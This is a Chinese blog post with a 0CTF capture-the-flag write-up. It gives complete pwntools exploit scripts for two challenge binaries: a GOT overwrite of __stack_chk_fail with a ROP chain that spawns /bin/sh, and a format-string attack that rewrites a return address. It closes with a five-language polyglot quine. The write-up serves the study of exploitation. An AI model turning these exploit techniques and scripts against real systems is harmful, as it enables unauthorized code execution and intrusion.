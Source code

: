 ```yaml
---
title: 0CTF writeup
author: rk700
layout: post
categories:
  - article
tags:
  - exploit
  - misc
---
```


周末参加了今年的第二次CTF，0CTF。与BCTF类似，这次的溢出、逆向题目也是非常有水平的，令人大开眼界。下面是我的部分的writeup。

## flaggenerator

这道题的溢出还是比较明显的。在leetify时，一个`h`字符会被变成`1-1`三个字符，从而长度变长，造成栈溢出。但这道题有stack canary保护，如果我们栈溢出修改了返回地址，就会触发`__stack_chk_fail`。而读了一遍伪代码之后并没有发现可以泄露canary的地方，于是肯定会触发调用`__stack_chk_fail`了。

但是，在leetify的最后一步是`strcpy`，而目标`dest`是从栈上取的，源`src`是我们提供的flag（虽然有些字符被leetify了）。`dest`是我们可以覆盖到的，于是，如果我们把`strcpy`的目标地址改为GOT，造成修改`__stack_chk_fail@got`，那么就可以调用我们提供的函数了。

在调用`__stack_chk_fail@got`时，栈顶还是之前`strcpy`的参数。我用的是`leave; ret`，这样把`ebp`设为我们覆盖的一个地址，再跳回leetify的返回地址，那里也是被我们所覆盖的，进而ROP下去。pwntools里好像有写ROP的功能，我不太熟，还是手工构造的。具体地，先`put`打印GOT，获得库函数地址；然后调用程序里一个类似`readline`的函数，将`system`和字符串`/bin/sh`读到固定位置；最后`leave; ret`，执行`system("bin/sh")`。下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    elf = ELF('flagen')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 5149)

    #len=9
    newGOT = [0x080484e6, 0x080484f6, 0x08048506, 0x08048516, 0x08048526, 0xf7e24570, 0x08048546, 0x08048556, 0x08048566]
    leave = 0x080485d8 
    newGOT[0] = leave #leave; ret
    newEbp = 0x0804b610
    newDest = 0x0804b01c #__stack_chk_fail@got
    popRet = 0x08048481 #pop ebx; ret
    newRet = popRet
    puts = 0x08048510 #puts@plt
    read = 0x0804b00c #read@got
    readLine = 0x080486cb
    count = 0x01010101
    sh = newEbp + 4*4 
    bsh = 0xf7f6a3a8

    #0x10c=4*9+77*3+1
    payload1 = "1\n" + "".join([p32(x) for x in newGOT]) + "h"*77 + "a" + p32(newEbp) + p32(popRet) + p32(newDest) + p32(puts) + p32(popRet) + p32(read) + p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
    #total: 4*9+77+1+4*10=154

    conn.recvuntil("Your choice: ")
    conn.send(payload1)

    conn.recvuntil("Your choice: ")
    a1 = conn.recvn(4) 
    readAddr = unpack(a1)
    print(hex(readAddr))

    #system = 0xf7e46d70
    system = readAddr - 0x9aa40
    payload2 = p32(newEbp) + p32(system) + p32(popRet) + p32(sh) + "/bin//sh\n"
    conn.send(payload2)

    conn.interactive()
{% endhighlight %}

## login

这道题是PIE的，所以我调试下断点遇到了一点麻烦。最后我的方法是：在库函数`MD5`下断点，运行到那里后，`finish`回到原程序里，然后一步步走下去。

很明显，我们需要调用读flag文件的那个函数，为此我们需要成为normal user。再新login用户时的`scanf`有问题，这里它用的是`%256s`，这样如果输入256个字符，就会读256个，并添加一个`\x00`在最后。这样，就可以修改那里，成为normal user了。

然后，在隐藏的选项4里，存在format string attack，而且一共有两次。于是我们可以在第一次得到内存地址，然后第二次修改来跳到读flag的函数那里。具体地，通过大量打印内存，我们发现`printf`的第3个参数是栈上的某处，由此可以得到返回地址在栈上的地址；第75个参数是返回地址，由此我们可以得到`.text`的基地址，进而得到读flag的函数的地址。然后，在第二次`printf`时，我们修改返回地址为读flag，就可以在`printf`结束后获得flag了。

下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 10910)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%3$p,%75$p\n1234\n"

    conn.send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')
    print addrs

    stack = int(addrs[0], 16) 
    base = int(addrs[1], 16)-0x12d3
    retAddr1 = stack - 0x8 
    retAddr2 = retAddr1+1
    print hex(retAddr1)
    print hex(base)

    high = (base & 0xff00) >> 8
    print hex(high)

    newHigh = high + 0x11
    part1 = "%8x%11$hhn"
    count = newHigh -8
    print "count 2 is %d" % count

    if count > 13 and count < 100:
        part2 = "aaa%%%dx%%12$hhn" % (count-3)
    elif count > 102:
        part2 = "aa%%%dx%%12$hhn" % (count-2)

    print len(part1)+len(part2)
    print part1+part2

    payload = part1+part2+p64(retAddr1)+p64(retAddr2) + "\n1234\n"

    conn.send(payload)
    conn.interactive()
{% endhighlight %}

## polyglot quine
其实两道题都是考察的它，只不过第一题只要求5种语言里的3种通过即可，第二题则要求5种语言全部通过。第一题我是直接搜索在[http://shinh.skr.jp/obf/](http://shinh.skr.jp/obf/)得到的，它已经满足c, python2, ruby和perl了。但python3还不满足，为此我研究了一下这段代码。

实验发现，python3之所以不满足，是因为python里的`print`会附加一个换行符在最后。为了解决这个问题，代码里用的是`print a%b,`，即在`print`之后添加一个逗号使得不打印换行符。但这只对python2有效，python3就不行了。

经过一番思考，我发现可以通过`rstrip()`去掉结尾的换行符，然后再`print`添加一个换行符，这样就做到了只有一个换行符了，而且这样对python2和python3都可以。下面就是我修改后可以通过5种语言的代码:

{% raw %}
<pre>
 #include/*
s='''*/<stdio.h>
main(){char*_;/*==;sub _:lvalue{$_}<<s;#';<<s#'''
def printf(a,*b):print((a%b).rstrip())
s
#*/
_=" #include/*%cs='''*/<stdio.h>%cmain(){char*_;/*==;sub _:lvalue{%c_}<<s;#';<<s#'''%cdef printf(a,*b):print((a%%b).rstrip())%cs%c#*/%c_=%c%s%c;printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);%c#/*%cs='''*/%c}//'''#==%c";printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);
#/*
s='''*/
}//'''#==
</pre>
{% endraw %}
